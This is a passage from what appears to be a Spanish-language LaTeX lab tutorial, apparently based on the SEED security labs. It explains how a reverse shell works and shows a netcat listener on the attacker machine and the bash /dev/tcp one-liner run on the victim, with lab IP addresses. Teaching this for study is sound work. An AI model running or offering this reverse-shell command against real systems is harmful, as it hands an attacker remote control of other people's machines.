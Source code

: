 Para hacer que una shell \texttt{bash} de una máquina remota conecte con la máquina del atacante, el atacante necesita que haya un proceso en el sistema que este a la espera de una conexión entrante en un determinado puerto. En este ejemplo usaremos \texttt{netcat}. Este programa nos permite establecer un puerto de escucha para una conexión entrante.
En la demostración que sigue, se muestran dos ventanas, cada una pertenece a una máquina diferente. La ventana que está arriba de todo es la máquina del atacante \texttt{10.9.0.1}, que ejecuta \texttt{netcat} (\texttt{nc} abreviado) y queda a la escucha en el puerto \texttt{9090}. La ventana de abajo es la máquina de la víctima \texttt{10.9.0.5} y ejecuta el comando para lanzar una shell reversa.
Al ejecutarse este comando, se observa como en la ventana de la máquina del atacante se establece la shell reversa que está corriendo en \texttt{10.9.0.5}.  

\begin{minipage}{\linewidth}
\begin{lstlisting}[backgroundcolor=]
           +---------------------------------------------------+ 
           | (*@\textbf{On 10.9.0.1 (attcker)}@*)                             |
           |                                                   | 
           | $ nc -lnv 9090                                    |  
           | Listening on 0.0.0.0 9090                         |  
           | Connection received on 10.9.0.5 49382             |  
           | $   <--+ (*@\textbf{This shell runs on 10.9.0.5}@*)              | 
           |                                                   |  
           +---------------------------------------------------+  
          
           +---------------------------------------------------+  
           | (*@\textbf{On 10.9.0.5 (victim)}@*)                              |
           |                                                   | 
           |$ /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1  | 
           |                                                   | 
           +---------------------------------------------------+
\end{lstlisting}
\end{minipage}

A continuación se explica de forma sintética los comandos utilizados para la creación de la shell reversa.
Para una explicación mas en profundida puede consultar el libro de SEED.


